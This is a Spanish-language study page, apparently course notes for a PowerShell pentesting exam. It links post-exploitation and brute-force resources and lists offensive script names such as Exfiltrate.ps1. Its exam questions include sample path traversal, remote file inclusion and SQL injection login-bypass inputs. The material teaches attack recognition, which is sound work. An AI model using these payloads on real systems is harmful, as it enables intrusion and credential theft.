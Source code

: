 # ¿Qué información se puede recopilar dentro de un sistema?
https://www.jesusninoc.com/2016/10/09/windows-post-exploitation-cmdlets-execution-powershell/
https://github.com/jesusninoc/Seguridad/blob/master/Recopilar%20informaci%C3%B3n%20acerca%20de%20los%20equipos

# ¿Qué información se puede recopilar dentro de una empresa?
http://papelesdeinteligencia.com/7-maneras-de-recolectar-datos-para-tu-empresa-que-todavia-no-conoces/

# Scripts for powershell for pentesters exam
https://github.com/salu90/PSFPT
- BruteForce-Basic-Auth.ps1
- Exfiltrate.ps1
- Exploits.ps1
- Get-Registry-Passwords.ps1
- GitHub-Interactive-Shell.ps1
- Registry-Malware.ps1
- Scan-Directory-Permissions.ps1
- Scan-Network-Shares.ps1
- Simple-Server.ps1
- Transfer-File-PsRemoting.ps1

# Brute Force

## Contraseñas seguras con PowerShell
https://www.jesusninoc.com/contrasenas-seguras-con-powershell/
## Brute Force
https://www.jesusninoc.com/brute-force/
## Ataque de fuerza bruta con Burp Suite Intruder
#https://www.jesusninoc.com/2016/02/23/ataque-de-fuerza-bruta-con-burp-suite-intruder/

#Preguntas posibles en examen
- Resuelve en PowerShell lo siguiente:
  - Dime si hay un antivirus instalado
  - Cómo compruebas que están funcionando los equipos de una red
  - Realiza un programa que cifre de forma sencilla
  - Simula la recuperación de un dato que se ha perdido
  - Sabes detectar impresoras en la red?, cómo?
  - Realiza un login que incorpore una función de hash
  - Realizar un sistema de copia de seguridad
  - Ver si un programa se está ejecutando viendo el nombre del producto
- ¿Cómo se llama esto?
  - http://vulnerable_host/preview.php?file=../../../../etc/passwd
  - http://vulnerable_host/vuln_page.php?file=http://attacker_site/malicous_page
- ¿Y esto?
  -http://www.example.com/index.php?username=1'%20or%20'1'%20=%20'1&password=1'%20or%20'1'%20=%20'1 
  -SELECT * FROM Users WHERE Username='1'OR '1'= '1'AND Password='1'OR '1'= '1'

